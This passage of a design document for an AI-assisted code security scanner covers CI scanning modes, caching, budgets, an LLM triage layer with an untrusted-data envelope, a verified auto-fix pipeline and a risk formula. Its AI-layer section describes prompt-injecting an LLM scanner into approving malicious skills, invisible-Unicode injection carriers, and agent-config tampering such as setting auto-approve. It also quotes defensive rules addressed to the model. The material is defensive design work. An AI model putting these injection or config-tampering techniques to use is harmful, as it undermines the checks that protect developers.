`vg scan --diff <base>..<head>` is the CI default; full scan is the scheduled/baseline mode.

- **Always full, never diffed:** S1 (an injection payload added anywhere in the repo is in scope regardless of the diff), secrets over full git history on first run, and the MCP-config audit. Diffing S1 is how you miss a payload planted in an untouched `AGENTS.md`.
- **Diff-scoped:** S3a SAST (changed files + files reachable from them per S5's call graph, one hop by default), S3d IaC, S3e workflows.
- **Dependency-set-scoped:** S3c/S3g run when any lockfile or manifest changes, on the full resolved set — not the diff — because a transitive change has no diff footprint.
- **Reporting rule:** GitHub only displays an alert in PR checks when **all lines identified by the alert exist in the PR diff** ([SARIF support](https://docs.github.com/en/code-security/code-scanning/integrating-with-code-scanning/sarif-support-for-code-scanning)). VG therefore emits two views: diff-visible alerts for the PR check, and the full ranked set in the artifact, so nothing is silently invisible.
- **Baseline discipline:** suppressions live in a signed `.vg/suppressions.yml` with expiry and reason, keyed on CWE + path glob + fingerprint, never on tool rule IDs — rule renames at Opengrep/Trivy/Checkov's 4–7-day cadence would otherwise silently unsuppress or re-suppress findings.

### 13.6 Caching

Four cache layers, all content-addressed, all with recorded provenance:

1. **Tool output cache** keyed by `(tool version digest, rule-corpus digest, file content hash, tool args)`. Invalidated by any component change — this is why uv lockfiles and pinned image digests are load-bearing.
2. **Advisory DB cache** (Trivy DB, OSV DB, KEV, EPSS) with an explicit **age stamp emitted into every report**. A stale DB is a silent recall reduction; VG makes it visible.
3. **LLM response cache** keyed by `(model id, prompt hash, temperature, envelope digest)`. Enables self-consistency replay and makes S6 reproducible for audit. Cached responses are marked as such in provenance so no one mistakes a cache hit for independent agreement.
4. **Context/graph cache** for S5 per commit tree, reused across diff scans.

Caches are per-repo namespaced and never shared across repos — a cross-repo cache is a cross-tenant information channel.

### 13.7 Budget governor

The governor is a first-class component, not a wrapper. It owns four budgets: **wall-clock**, **CPU-seconds**, **tokens/currency**, and **findings volume**.

- Declared per scan: `--budget-wall 20m --budget-tokens 400k --budget-usd 2.00 --max-findings 5000`.
- **Priority order when budget is short:** S1 (trust) > S3b (secrets) > S3c/S3g (dependencies, KEV-flagged) > S3a (SAST) > S6 (AI) > S8 (fix). Deterministic, high-precision classes are protected; the LLM layer is the first thing sacrificed. This is the inverse of most AI-security products and is deliberate: a report with no AI layer is still a valid report; a report with no secret scan is not.
- **Per-branch reservations with steal-back:** each S3 branch gets a floor; unused budget returns to the pool and is offered to the next-highest-priority incomplete branch.
- **Hard token cap per finding** in S6, and a per-scan cap; exceeded budget produces `abstain`, never a truncated guess. The precedent for a spend cap in this space is FuzzingBrain's `--budget` flag ([repo](https://github.com/fuzzingbrain/afc-crs-all-you-need-is-a-fuzzing-brain)).
- **Every degradation is reported.** The report header carries `stages_completed`, `stages_partial`, `stages_skipped`, budget consumed, and DB ages. A scan that silently downgraded itself would invalidate every calibration claim in §18.

---

## 14. AI Layer

### 14.1 The split, by finding class

Directive D4 is a boundary, not a preference: the LLM may raise or lower confidence and may **add** findings marked `source=ai, unverified`, but may never delete a deterministic finding and may never approve a patch or a gate.

| Finding class | Owner | Rationale | LLM may |
|---|---|---|---|
| Hardcoded secrets | **Deterministic** (Gitleaks + entropy) | Measured, reproducible; 0.88 recall ([Basak et al.](https://bradreaves.net/publication/bcrw23/bcrw23.pdf)) | rank, explain, propose rotation steps |
| Known dependency CVEs | **Deterministic** (Trivy ∪ osv-scanner, purl+alias join) | Facts from advisory DBs | explain exploitability context |
| Package hallucination / typosquat | **Deterministic** (registry existence, age, popularity, edit distance) | Registry API answers are T0 machine-verified facts | explain, suggest the real package |
| IaC / container misconfig | **Deterministic** (Checkov, Trivy) | Rule-defined | explain blast radius |
| GitHub Actions misconfig | **Deterministic** (zizmor + VG rules) | Structural | explain the attack chain |
| Invisible/obfuscated Unicode, encodings | **Deterministic** (codepoint ranges, multi-pass decode) | `U+E0000`–`U+E007F` has "no legitimate use" in assistant config files ([CSA](https://labs.cloudsecurityalliance.org/research/csa-research-note-readme-instruction-injection-ai-coding-age/)) | judge whether decoded text is imperative and hostile |
| Injection-heuristic Tier 2–3 semantics | **Hybrid**: deterministic locate + LLM adjudicate | Tier 1 is near-zero-FP; Tier 2/3 need semantic judgement, and legitimate invisible codepoints exist (emoji, zero-width test fixtures) ([Embrace The Red](https://embracethered.com/blog/posts/2026/scary-agent-skills/)) | set confidence, never set the gate |
| License / SBOM | **Deterministic** | Facts | — |
| Fingerprints, dedup, gating | **Deterministic** | Must be reproducible for audit | — |
| Injection SQL/XSS/path/command (pattern-visible) | **Deterministic first**, LLM triage second | Pattern engines find these; the problem is precision | filter FPs with cited evidence |
| Broken access control / authz / multi-tenancy | **AI-assisted** | The class SAST is provably worst at; formal-verification work measured a 55.8% default vulnerability rate in LLM output while combined static tools caught 2.2% and CodeQL security-extended caught **0%** ([Broken by Default](https://vibe-eval.com/updates/broken-by-default-formal-verification/)) | propose findings, `unverified` |
| Business-logic flaws, insecure-by-default design | **AI-assisted** | No rule encoding exists | propose findings, `unverified` |
| Cross-file data-flow hypotheses | **AI-assisted over deterministic candidates** | The IRIS pattern: dataflow engine proposes, LLM refines sources/sinks and triages; IRIS+GPT-4 detected 55/120 CWE-Bench-Java CVEs vs CodeQL's 27, improved FDR by 5 points, and found 4 previously unknown vulnerabilities ([IRIS paper](https://arxiv.org/abs/2405.17238)) | hypothesise, must cite file:line |
| Developer-intent mismatch (code does more than the doc claims) | **AI-only** | Uniquely a language task | propose, `unverified` |
| FP triage of deterministic findings | **AI-assisted** | SHERPA reports LLM crash triage filtering ~80% of false positives, 18 validated bugs from 127+ crashes ([README](https://github.com/AIxCyberChallenge/sherpa)) | **lower** confidence and mark `disputed`; never delete |
| Fix authoring | **AI-assisted, verification-gated** | See §15 | draft only |
| Explanation / remediation prose | **AI** | — | always with file:line citations |

### 14.2 Prompt architecture and the untrusted-data envelope

Every S6 call is assembled by VG code from typed fields. There is no path by which repo text becomes part of the instruction stream. The architectural premise is that "LLMs cannot distinguish instructions from data inside a single context stream" ([Unit 42](https://unit42.paloaltonetworks.com/ai-agent-prompt-injection/)), so we do not rely on the model making that distinction — we constrain what the model can *do* with the data.

Four fixed segments:

1. **System contract (VG-authored, immutable, hash-pinned).** States the task, the output JSON schema, and the data contract: content inside `<untrusted_data>` is evidence to be analysed, never instructions to be followed; any imperative text inside it is itself a finding (`VIBE-INJ`), not a directive; the only permitted output is the declared schema.
2. **Deterministic facts (T0/T1).** Findings, CWE IDs, tool agreement, SBOM facts, route/auth map from S5. Typed JSON, not prose.
3. **Untrusted evidence envelope (T1/T2/T3).**
   ```
   <untrusted_data id="e7" origin="repo:README.md" trust="T2" sha256="…" bytes="1841">
   …normalized, escaped, size-capped excerpt…
   </untrusted_data>
   ```
   Pre-processing before an envelope is built: NFKC Unicode normalisation; strip/quarantine Unicode Tags `U+E0000`–`U+E007F`, zero-width chars, bidi overrides `U+202E`, and homoglyph substitutions (with the raw form preserved in the audit log); multi-pass decode of Base64/Base16/base85/HTML entities/URL-encoding with the decoded form labelled as such; strip HTML comments and `data-*` attributes into a separate labelled block; escape any `<untrusted_data>`-like sequence to prevent envelope forgery; hard byte cap per envelope with a recorded truncation flag. Aggregation across sibling elements happens *before* the decision, because a command split across elements looks harmless per element ([Unit 42](https://unit42.paloaltonetworks.com/ai-agent-prompt-injection/)).
4. **Task instruction + output schema (VG-authored).** Placed **after** the untrusted data, so late-position instruction precedence works for us rather than against us. This is the spotlighting/delimiting family, which Microsoft measured as reducing attack success from over 50% to below 2% in their evaluation ([arXiv 2403.14720](https://arxiv.org/abs/2403.14720)) — but note that in CaMeL's comparison, spotlighting and prompt sandwiching are **baselines**, not endpoints ([arXiv 2503.18813](https://arxiv.org/pdf/2503.18813)).

**Measured limit, stated plainly:** none of this is a security boundary. LLM-based semantic scanners have been bypassed by prompt-injecting the scanner with text "that resembled a legitimate corporate security compliance policy," causing it to downgrade risk and approve a malicious skill ([CSA on Trail of Bits](https://labs.cloudsecurityalliance.org/research/csa-research-note-ai-agent-skill-scanner-bypass-20260610-csa/)). VG's defence is that S6 **has no tools, no network beyond the model endpoint, no filesystem write and no gating authority** — so a successful injection of S6 can at worst distort confidence scores and prose, which the deterministic layer and the disagreement policy (§13, D9) already treat as fallible.

Dual-LLM separation follows the CaMeL shape where it is cheap: a **Q-role** call parses untrusted excerpts into structured, non-instructional summaries with no tool access, and a **P-role** call reasons only over the structured output plus T0 facts ([CaMeL](https://arxiv.org/abs/2503.18813); [code](https://github.com/google-research/camel-prompt-injection)). CaMeL's own stated limits apply to us too: it does not defend against attacks affecting neither control nor data flow, does not stop text-to-text manipulation without exfiltration, and is vulnerable to side channels; the paper says outright that "prompt injection attacks are not fully solved."

### 14.3 Model routing

| Task | Class of model | Why |
|---|---|---|
| Envelope summarisation (Q-role) | Small/cheap, possibly local (7–14B via Ollama/vLLM) | High volume, low reasoning, no tool access. Precedent that this ports to non-frontier local models: `vulnhuntr-mod` re-targeted the vulnhuntr prompt pipeline at Qwen/Hunyuan/Ollama ([repo](https://github.com/kxcode/vulnhuntr-mod)) |
| FP triage | Mid-tier | Classification with cited evidence; measure per-class precision before trusting |
| Authz/logic hypothesis generation | Frontier | The hardest reasoning task in the pipeline |
| Fix authoring | Frontier, temperature 0 | Correctness-critical; verification gates it anyway |
| Explanation | Mid-tier | Prose |

Routing rules: (a) **BYO keys by default** — Anthropic, OpenAI, Google, Bedrock, Vertex, Azure/Foundry, or any OpenAI-compatible endpoint; (b) **`--offline` forbids any non-local endpoint** and the DAG refuses to start S6 against a remote model in offline mode; (c) **`--local-only` profile** targets Ollama/vLLM/LM Studio, with published quality deltas per class in the benchmark report rather than a claim that local is equivalent; (d) model identity, version string and prompt hash are recorded in provenance for every finding, so a model swap is visible in the diff of two scans; (e) no VG feature may require a specific vendor — this is both a licensing constraint ([Agent SDK terms](https://docs.claude.com/en/docs/claude-code/sdk/sdk-overview)) and a competitive one (§20).

### 14.4 Token budgeting

- **Hierarchical context, not whole-file dumps.** S5 supplies the minimal slice: the finding's function, its callers one hop, the route/auth binding, and the relevant config. The cross-repo analogue of this idea is `src2sink`'s "source-code metabase" designed to be loaded as LLM context so taint can cross repository boundaries ([repo](https://github.com/mimecast/src2sink)).
- **Per-finding cap** (default 12k input / 2k output tokens) and a **per-scan cap**. Exceeding either yields `abstain`, never truncation-and-guess.
- **Batching with isolation:** findings are batched for throughput only when they share a file and rule class; envelopes from different trust origins are never merged into one call, because that creates a cross-contamination channel between untrusted sources.
- **Cache-first:** the LLM cache (§13.6) is consulted before any call; cache hits are labelled and excluded from self-consistency counts.
- **Cost is measured, not estimated.** Tokens and currency per KLOC are OTel-instrumented and published (§18).

### 14.5 Hallucination controls

1. **Mandatory grounding.** Every AI finding must carry `file`, `line_range`, and a `snippet_sha256` that VG re-verifies against the worktree. A finding whose snippet does not match is dropped and counted in a published `ungrounded_rate` metric.
2. **Schema-constrained output** with strict validation; a parse failure is retried once, then becomes `abstain`.
3. **Self-consistency for the hard classes.** Authz/logic findings are sampled k=3 at temperature >0 with different context orderings; agreement ≥2/3 is required to emit at `likely`, 3/3 for `confirmed-by-ai` (which is still weaker than any deterministic confirmation). Justification for treating single-run LLM output as weak evidence: NCC Group measured prompt-injection outcomes as non-deterministic across repeated identical attempts ([NCC Group](https://www.nccgroup.com/research/non-deterministic-nature-of-prompt-injection/)), and SecLLMHolmes found that merely renaming functions/variables or adding library calls made PaLM2 wrong in 26% and GPT-4 wrong in 17% of cases, concluding LLMs "cannot reliably identify and reason about security vulnerabilities (yet?)" ([paper](https://arxiv.org/abs/2312.12575)).
4. **Adversarial self-check.** For a subset, a second call is asked to argue the finding is a false positive using only the same evidence; unresolved disagreement → `disputed`.
5. **Canary detection.** VG runs its own slop canaries in CI, in the spirit of [honeyslop](https://github.com/gadievron/honeyslop) — deliberately planted decoys so that a hallucinating scanner produces reports that self-identify. Any release whose canary hit-rate rises fails the gate. (honeyslop is self-described as "a quick PoC, vibe-coded as a joke (not production-grade)", so we implement the idea, not the code.)
6. **No unverified AI finding may gate CI.** Directive D5.

### 14.6 Abstention

Abstention is a product feature and a published metric, not a fallback. VG abstains when: confidence < threshold; localisation is file-level only rather than function-level; self-consistency disagrees; budget exhausted; the required context could not be built (S5 marked exposure `unknown`); or the file is labelled T2 and its content is itself flagged as injection (analysing it as trustworthy source would be circular).

The evidence for making this a headline number: fix success is 65% with correct vulnerability guidance but **15.2% with incorrect guidance** ([Off-by-1 Labs](https://singularity.kiwi/ai-patching-26-percent-success-rate-flawed-research-2026/)) — a wrong finding is worse than silence. No vendor in the competitive matrix publishes an abstention policy or a confidence-calibration curve (§19–20).

### 14.7 Evaluating the AI layer itself

The AI layer is a component under test, with its own gates in CI:

| Property | Instrument | Gate |
|---|---|---|
| Detection precision/recall per class | CWE-Bench-Java (120 CVEs, MIT) + OpenSSF CVE Benchmark (200+ real JS/TS CVEs, MIT), with IRIS-vs-CodeQL as the published baseline ([CWE-Bench-Java](https://github.com/iris-sast/cwe-bench-java), [OpenSSF CVE Benchmark](https://github.com/ossf-cve-benchmark/ossf-cve-benchmark), [IRIS](https://arxiv.org/abs/2405.17238)) | no regression vs previous release |
| Reasoning robustness to perturbation | SecLLMHolmes, 228 scenarios incl. renaming/library perturbations ([repo](https://github.com/ai4cloudops/SecLLMHolmes)) — note GPL-3.0, run as an external harness | published delta, no silent regression |
| Does tool access help? | mythos-bench pattern: plain-API calls vs an agentic harness with Read/Grep/Bash on identical cases, identical JSONL schema ([repo](https://github.com/semgrep/mythos-bench)) — no license stated, so pattern only | informational |
| Injection resistance of S6 | AgentDojo (97 tasks, 629 security cases), InjecAgent (1,054 cases), ASB, MCPSecBench ([AgentDojo](https://arxiv.org/abs/2406.13352), [InjecAgent](https://arxiv.org/abs/2403.02691), [ASB](https://github.com/agiresearch/asb), [MCPSecBench](https://arxiv.org/abs/2508.13220)) | ASR published per release; regression fails the gate |
| Calibration | reliability curve of stated confidence vs measured correctness on the VG corpus | published per release |
| Grounding | `ungrounded_rate` (snippet hash mismatch) | must be 0 in release builds |
| Cost | tokens + USD per KLOC per profile | published |

Expected ranges, stated up front so the numbers are not a surprise: CyberSecEval 2 found 26%–41% of prompt-injection tests succeeded across GPT-4, Mistral, Llama 3 70B-Instruct and Code Llama ([paper](https://arxiv.org/abs/2404.13161)); a Jan 2026 survey reports adaptive attack success exceeding 85% against state-of-the-art defenses and that **every** evaluated defense was bypassed under adaptive optimisation ([arXiv 2601.17548](https://arxiv.org/html/2601.17548v1)). VG's target is measurable risk reduction with a published residual, not immunity.

---

## 15. Auto-Fix System

### 15.1 Position

Auto-fix is opt-in (S8), never runs on the default branch, and never auto-applies. The wedge is not "we fix things" — every competitor claims that — it is **"we refuse to call a patch a fix until a machine has proven the exploit no longer works and nothing else broke."** The evidence that this is a real gap:

- **Independent:** 6,080 AI-generated security patches across six recently disclosed CVEs (ChatGPT 5.5 medium effort, Claude Opus 4.8 high effort) produced **only 26.0% fully successful clean fixes**; 20.1% fixed the issue but changed behaviour; 2.3% fixed it but introduced new security problems; **49.3% failed to close at least one existing exploit path**; 2.2% both failed and introduced a new exploit path ([Off-by-1 Labs](https://singularity.kiwi/ai-patching-26-percent-success-rate-flawed-research-2026/)).
- **Independent-ish benchmark:** on AutoPatchBench-Lite (113 C/C++ samples) reference agents reached ~60% patch *generation* success but only **~5–11% post-verification**; Gemini 1.5 Pro generated patches for 61.1% of samples yet 5.3% of the total set were ultimately correct; Google's own AI-patching report is cited at a **15% fix rate** ([Meta Engineering](https://engineering.fb.com/2025/04/29/ai-research/autopatchbench-benchmark-ai-powered-security-fixes/)).
- **Independent:** VulnRepairEval — the best of 12 LLMs fixed only **21.7% of 23 Python CVEs** under exploit-based verification; SWE-Bench+ found 31% of "passed" patches exploited weak tests ([arXiv 2606.25973](https://arxiv.org/html/2606.25973v1)).
- **Vendor claims for contrast:** Pixee 76–87% automated-fix merge rate ([devcuration](https://devcuration.substack.com/p/pixee-seed-round)); Nullify ~90% merge-ready ([Nullify seed](https://www.globenewswire.com/news-release/2026/02/05/3232827/0/en/nullify-closes-seed-funding-round-with-12-5-million-investment-to-scale-growth-of-first-ever-ai-workforce-for-product-security.html)); GitHub Copilot Autofix median 28 min vs 1.5 h manual and ">2/3 of alerts remediable with little or no editing" ([GitHub blog](https://github.blog/news-insights/product-news/secure-code-more-than-three-times-faster-with-copilot-autofix/)).

**Merge rate is not correctness.** The gap between 5–26% (independent, exploit-verified) and 76–90% (vendor, merge-rate) is the credibility hole VG is designed to occupy.

A second trap must be designed around: **differential testing alone had 84.1% accuracy, 100% recall but only 41.7% precision** on a 44-patch human-validated sample ([Meta](https://engineering.fb.com/2025/04/29/ai-research/autopatchbench-benchmark-ai-powered-security-fixes/)). So the gate cannot be "tests pass" — it must be exploit reproduction plus differential behaviour plus rescan.

### 15.2 The pipeline (D6, expanded)

```
 Detect ──► Explain ──► Reproduce ──► Propose ──► Patch ──► Test ──► Rescan ──► Verify ──► Approve ──► PR
   │           │            │            │          │        │         │          │          │        │
 S4/S7      S6 prose    PoC or         codemod   sandboxed  existing  full +   PoC now    human    GitHub
 finding    + cited     failing        first,    worktree,  suite +   diff     fails,     gate     App,
 with       file:line   security test  LLM       tier-3     new sec   SARIF    no new     signed   never
 conf ≥ θ               (or ABSTAIN)   fallback  sandbox    test      compare  findings,  decision default
                                                                              no behav.            branch
                                                                              regression
```

Key ordering decisions:

- **Reproduce before Propose.** If VG cannot build a PoC or a failing security test, it does not attempt a fix; it emits `abstain(reason=unreproducible)` with the explanation and suggested manual remediation. This is the direct application of the guidance-quality finding (§14.6). The reference implementations for execution-verified findings are FuzzingBrain, where "every finding dynamically verified to eliminate hallucinations" ([repo](https://github.com/fuzzingbrain/afc-crs-all-you-need-is-a-fuzzing-brain)), PatcherY's `--generate-verified-patch` ([repo](https://github.com/shellphish/PatcherY), BSD-2-Clause), and muence-ai/vibesec, which grades patches by running real exploits — "No model judges the result" ([repo](https://github.com/muence-ai/vibesec)).
- **Deterministic codemods before LLM edits.** For mechanical classes (parameterise a query, add an explicit deny default, pin a dependency, replace a weak hash, add an authz decorator on a route already covered by a pattern) VG uses its own codemod library. The design precedent is `pixee/codemodder-python`, which consumes SAST results and rewrites source — but it is **AGPL-3.0** ([repo](https://api.github.com/repos/pixee/codemodder-python)), so we implement the pattern, not the code. Codemods are preferred because they are reviewable, reproducible, and have no hallucination surface.
- **LLM edits are minimal-diff and bounded.** Max changed lines and max touched files per patch candidate are configurable hard limits; exceeding them is `abstain`, not a bigger patch.

### 15.3 State machine

```
DETECTED ──(conf ≥ θ_fix ∧ class ∈ fixable)──► REPRO_ATTEMPT
DETECTED ──(else)───────────────────────────► ABSTAINED(low_confidence | class_unsupported)

REPRO_ATTEMPT ──(PoC flips fail)──► REPRODUCED
REPRO_ATTEMPT ──(no PoC, test written & fails correctly)──► REPRODUCED(test_only)
REPRO_ATTEMPT ──(timeout | no oracle)──► ABSTAINED(unreproducible)

REPRODUCED ──► CANDIDATES(n ≤ 3: codemod, llm_minimal, llm_guided)
CANDIDATES ──(invariant violated)──► REJECTED(forbidden_edit) ──► ABSTAINED
CANDIDATES ──► PATCHED(worktree)
PATCHED ──(build fails)──► RETRY(≤2) ──► ABSTAINED(unbuildable)
PATCHED ──► TESTED
TESTED ──(existing suite regression)──► REJECTED(regression) ──► next candidate | ABSTAINED
TESTED ──(new security test still fails)──► REJECTED(ineffective) ──► next candidate | ABSTAINED
TESTED ──► RESCANNED
RESCANNED ──(new findings introduced)──► REJECTED(new_finding) ──► next candidate | ABSTAINED
RESCANNED ──► VERIFIED(evidence bundle)
VERIFIED ──► AWAITING_HUMAN ──(approve)──► PR_OPENED ──► MERGED_BY_HUMAN
AWAITING_HUMAN ──(reject)──► RECORDED(rejected_by_human, feedback captured)
any state ──(budget exhausted)──► ABSTAINED(budget)
PR_OPENED ──(post-merge alarm)──► ROLLBACK_PREPARED
```

Every transition is an entry in the hash-chained audit log (§17.8) with the tool versions, model id and prompt hash.

### 15.4 Verification harness design

Runs entirely in a **tier-3 sandbox** (gVisor or microVM), with **no network** during test/verify. Network-off is not a convenience: it prevents a malicious repo's test suite from exfiltrating during our own verification run, and it prevents a patch from "passing" because it silently reached out.

Four gates, all must pass:

1. **Security oracle flip.** The PoC or property test that failed pre-patch must pass post-patch (i.e. the exploit no longer works). Exploit-first, per muence-ai's grading rule.
2. **Functional regression.** The repo's existing test suite must not regress. If the repo has no test suite — common in vibe-coded repos — this gate cannot be satisfied and VG downgrades the outcome to `verified_partial(no_test_suite)`, which is reported honestly and is **never** presented as a verified fix.
3. **Differential behaviour.** Same-input/same-output comparison on recorded traces for touched entrypoints, using the differential-testing pattern AutoPatchBench validates — with its measured 41.7% precision explicitly treated as a *supporting* signal, never the sole oracle.
4. **Differential rescan.** Full rescan plus a SARIF-level diff: zero new findings at or above the original severity, and the original finding must be gone by fingerprint. Cross-tool: if Opengrep says fixed but osv-scanner/Trivy now flags a new transitive CVE from a version bump, that is a `new_finding` rejection.

Oracle generation strategy, by class:

| Class | Oracle |
|---|---|
| Injection (SQL/cmd/path/XSS) | HTTP-level or unit-level PoC against the route identified in S5; assertion on sink reachability |
| Missing authz / IDOR | Two-identity property test: identity B must not read/write A's resource. Corpus precedent: 1,000 execution-verified tasks across IDOR, missing auth, mass assignment, privilege escalation, path traversal, SQLi, each shipping a runnable exploit that prints `PWNED` plus a spec test ([muence-ai/vibesec](https://github.com/muence-ai/vibesec)) |
| Secrets | Deterministic: literal removed, referenced from env/secret store, **and** rotation instruction emitted. VG never rotates a credential itself, and never commits a generated credential |
| Dependency CVE | Version constraint satisfied + lockfile coherent + full SCA rescan clean + test suite green |
| Hallucinated package | Registry existence check post-patch (T0 fact) |
| IaC / workflow misconfig | Re-evaluate the rule against the patched file + policy assertion |
| Memory-safety in native code | Out of MVP/V2 scope; the honest answer is that this class needs fuzzing infrastructure (OSS-Fuzz/ARVO shape) and VG does not ship it before V3 |

Where VG cannot generate an oracle, it says so. Test/PoC generation itself is measured, not assumed: OSS-Fuzz-Gen is the reference for LLM harness generation quality, producing valid targets for 160 C/C++ projects with line-coverage increases up to 29% and 30 new bugs including CVE-2024-9143 ([repo](https://github.com/google/oss-fuzz-gen)) — evidence that generation works, and evidence of how much infrastructure it costs.

### 15.5 Invariants and forbidden edits

Enforced by a deterministic pre-commit checker in the sandbox, **before** the candidate is even tested. A violation is a hard rejection; there is no LLM override.

Never, under any configuration:
- write to the default branch, or to any protected branch;
- commit a credential, key, token or certificate, generated or copied;
- modify `.git/hooks`, `.git/config`, or bare-git paths;
- weaken or delete an existing security control, test, or assertion to make a patch pass;
- modify `.vg/suppressions.yml` (a fix that suppresses itself is the canonical cheat).

Requires explicit, per-scan human opt-in flags:
- CI/CD workflow files (`.github/workflows/**`, GitLab CI) — because a patch here can grant itself permissions;
- agent instruction/config files (`CLAUDE.md`, `AGENTS.md`, `.cursor/rules/**`, `.claude/settings.json`, `.mcp.json`, `.vscode/settings.json`) — these are T2 by definition and writing them is the mechanism of CVE-2025-53773 (`"chat.tools.autoApprove": true`, [Embrace The Red](https://embracethered.com/blog/posts/2025/github-copilot-remote-code-execution-via-prompt-injection/)) and CVE-2025-54135 (unapproved `.cursor/mcp.json` creation, [NVD](https://nvd.nist.gov/vuln/detail/CVE-2025-54135));
- permission/IAM/policy manifests;
- lockfile-pinned versions and lockfiles;
- database migrations;
- anything under a path the user marked `protected` in `.vg/config.yml`.

Note that Claude Code's own sandbox denies writes to precisely this family of paths and states that `allowWrite` and `Edit` allow-rules **cannot lift** the restriction ([sandboxing](https://docs.claude.com/en/docs/claude-code/sandboxing)) — independent confirmation that this is the right invariant set, arrived at by a vendor with far more telemetry than we have.

### 15.6 PR hygiene and provenance

Each PR: one finding, one fix, minimal diff. No bundling, because bundling defeats reviewer attention and makes rollback coarse.

PR body template (machine-generated, deterministic sections):
1. Finding: ID, CWE, VIBE class, risk score and band, KEV/EPSS/SSVC.
2. Why it is exploitable: the PoC, and the exact command to reproduce it locally.
3. What changed and why this shape of fix; alternatives considered and rejected.
4. Verification evidence: oracle flip (before/after), test-suite result, differential-behaviour result, rescan diff, and any gate that was **not** satisfied (e.g. `no_test_suite`).
5. **Provenance block**: `vg` version, engine image digest, each scanner name+version, rule-corpus digest, model id+version, prompt hash, temperature, self-consistency k and votes, sandbox tier, commit SHA of the base, timestamp, audit-log head hash. Signed with Sigstore; attestation in in-toto format ([in-toto](https://in-toto.io/), [sigstore](https://www.sigstore.dev/)) — versions **n.a.** on both sites.
6. Rollback: `git revert <sha>` plus, where the patch touched dependencies, the exact prior lockfile hash.
7. Explicit statement of residual risk and confidence. No PR says "this is now secure."

Operational constraints designed for: Checks API write is App-only ([Checks runs](https://docs.github.com/en/rest/checks/runs)); a max of 50 annotations per Checks request and only 10 warning + 10 error annotations per Actions step; commits made with the default `GITHUB_TOKEN` do not trigger workflows ([GITHUB_TOKEN](https://docs.github.com/en/actions/concepts/security/github_token)), so VG's PRs are authored via the App installation token to ensure CI actually runs on them.

### 15.7 Rollback and post-merge monitoring

Every merged VG PR is registered with its revert SHA, the pre-patch fingerprint set, and the verification bundle. On the next scheduled scan, if the original finding reappears or a new finding appears in the patched region, VG opens a `regression` issue referencing the original PR and the prepared revert. Rollback is a documented one-command operation; a fix system without a rollback story is an incident generator.

### 15.8 Published metrics for this subsystem

`verified_fix_rate` (verified / attempted), `abstention_rate`, `rejection_rate by cause`, `regression_rate`, `human_rejection_rate`, and `mean_time_to_verified_fix` — per language, per class, per model, per release. We expect our honest number to sit far below vendor merge rates, and §20 treats that as a commercial risk, not a footnote.

---

## 16. Risk Engine

### 16.1 Why CVSS alone is insufficient

CVSS v4.0 is a **severity** scale, not a decision procedure ([FIRST CVSS](https://www.first.org/cvss/)); the CVSS SIG itself published a Consumer Implementation Guide for tailoring scores to deployment environments. SSVC exists precisely because severity ≠ decision: created in 2019 by CMU SEI with CISA, its decision tree yields **Track / Track\* / Attend / Act** from Exploitation, Technical impact, Automatable, Mission prevalence and Public well-being impact ([CISA SSVC](https://www.cisa.gov/stakeholder-specific-vulnerability-categorization-ssvc)).

Three further reasons specific to VG's context:

1. **Most VG findings have no CVE and therefore no CVSS.** A missing-authz flaw in a vibe-coded app has a CWE and a blast radius, not a CVSS vector.
2. **Detector recall is so low that raw counts and raw severities mislead.** Best single-tool recall on a 165-CVE real-world Java benchmark was **12.7%**, and all seven tools combined still missed **70.9%** ([Li et al., ESEC/FSE '23](https://sen-chen.github.io/img_cs/pdf/fse2023-sast.pdf)). Raw finding counts overstate real detection by 3–6× once manually verified. A score that ignores detector confidence is not decision-grade.
3. **Exploitability in the wild is empirical.** EPSS publishes a daily 0–1 probability with percentiles for every CVE, estimating exploitation likelihood in the next 30 days ([FIRST EPSS](https://www.first.org/epss/)); CISA KEV is the authoritative catalogue of what is actually exploited ([KEV](https://www.cisa.gov/known-exploited-vulnerabilities-catalog)). Ignoring both in favour of a base score inverts real priorities.

### 16.2 The formula

```
Risk_raw = Base × Exploitability × Exposure × Asset × BlastRadius × Confidence
```

Computed in log space for numerical stability and for auditable factor attribution:

```
ln R = ln Base + ln E_x + ln E_p + ln A + ln B + ln C
Score = clamp( round( 100 × (ln R − ln R_min) / (ln R_max − ln R_min) ), 0, 100 )
```

with `R_min`/`R_max` fixed constants of the model (not per-scan), so scores are comparable across scans and repos. Bands: **Critical ≥85 · High 70–84 · Medium 45–69 · Low 20–44 · Info <20**.

Log space matters for two practical reasons: a single factor can never dominate by numerical accident, and the report can show each factor's *additive* contribution in ln-space, which is what makes a score explainable to a developer who disagrees with it.

### 16.3 Factor tables

**Base** — CVSS v4.0 base score/10 when a CVE exists; otherwise a CWE severity prior calibrated from the 2025 CWE Top 25 ranking ([2025 CWE Top 25](https://cwe.mitre.org/top25/archive/2025/2025_cwe_top25.html)) and CWE 4.20 as the canonical taxonomy ([CWE](https://cwe.mitre.org/)).

| Base tier | Value | Examples |
|---|---|---|
| Critical class | 0.95 | CWE-78 (#9), CWE-94 (#10), CWE-89 (#2), unauth RCE |
| High class | 0.80 | CWE-79 (#1), CWE-22 (#6), CWE-862 (#4), CWE-352 (#3), CWE-306 (#21) |
| Medium class | 0.55 | CWE-200 (#20), CWE-770 (#25), weak crypto defaults |
| Low class | 0.30 | verbose errors, missing hardening headers |
| Info | 0.15 | style, hygiene |

**Exploitability (E_x)** — directive D5 values, plus an explicit floor.

| Condition | Value |
|---|---|
| PoC verified by VG (oracle flipped) | 1.00 |
| In CISA KEV, or EPSS ≥ 0.5, or public exploit located | 0.85 |
| Reachable path established in S5 | 0.70 |
| Theoretical / pattern-only | 0.40 |
| Explicitly unreachable (dead code, dev-only fixture) | 0.20 |

**Exposure (E_p)**

| Condition | Value |
|---|---|
| Internet-facing route | 1.00 |
| Authenticated route | 0.70 |
| Internal / service-to-service | 0.50 |
| Dev/test-only path | 0.25 |
| `unknown` (S5 could not resolve) | 0.60 — deliberately mid, and the finding is flagged `exposure_unknown` |

**Asset sensitivity (A)**

| Data/asset touched | Value |
|---|---|
| Secrets, credentials, payment, PII | 1.00 |
| Business data, user content | 0.70 |
| Metadata, logs | 0.50 |
| Static assets | 0.30 |

**BlastRadius (B)**

| Impact | Value |
|---|---|
| RCE, lateral movement, full tenant compromise | 1.00 |
| Privilege escalation / write across tenants | 0.85 |
| Bulk data read | 0.65 |
| Single-record read | 0.40 |
| Availability-only, single instance | 0.30 |

**Confidence (C)** — the factor that encodes epistemics into the score.

| Evidence state | Value |
|---|---|
| Verified PoC | 1.00 |
| ≥2 deterministic tools agree | 0.90 |
| 1 deterministic tool, high-precision class (secrets w/ format match, KEV CVE with purl match) | 0.80 |
| 1 deterministic tool, low-precision class | 0.60 |
